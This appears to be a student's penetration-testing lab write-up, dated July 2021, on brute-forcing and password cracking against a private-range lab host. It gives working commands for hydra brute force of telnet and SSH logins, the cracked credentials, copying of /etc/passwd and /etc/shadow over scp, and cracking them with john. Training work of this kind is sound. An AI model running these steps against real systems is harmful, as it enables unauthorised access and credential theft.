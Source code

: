 # Bruteforce and Password Cracking 

> Makayla Ferrell | July 28th, 2021

### Steps 

1. Connect to VPN 
```
sudo openvpn <filename> 
```
2. Find Network IP range 
```
ip a 
```
192.168.99.100/24

3. Find active hosts with fping 
```
fping -a -g 192.168.99.100/24 2>/dev/null 
```
The target is 192.168.99.22

4. Nmap scan target
telnet 23 and ssh 22 

5. Discover telnet login 
```
hydra -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-15.txt telnet://192.168.99.22 -f -V

```
[23][telnet] host: 192.168.99.22   login: sysadmin   password: secret
[23][telnet] host: 192.168.99.22   login: guest   password: 654321

6. Discover ssh login 
```
hydra -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-15.txt 192.168.99.22 ssh 
```

7. Use scp and ssh credentials to get passwd and shadow files 
```
scp root@192.168.99.22:/etc/passwd . 
scp root@192.168.99.22:/etc/shadow . 
```
[22][ssh] host: 192.168.99.22   login: root   password: 123abc

8. Merge files into one for john to use 
```
unshadow passwd shadow > crackthese
```

9. Crack accounts with john 
```
john crackthese (uses default wordlist)
john --show crackthese > cracked 
```
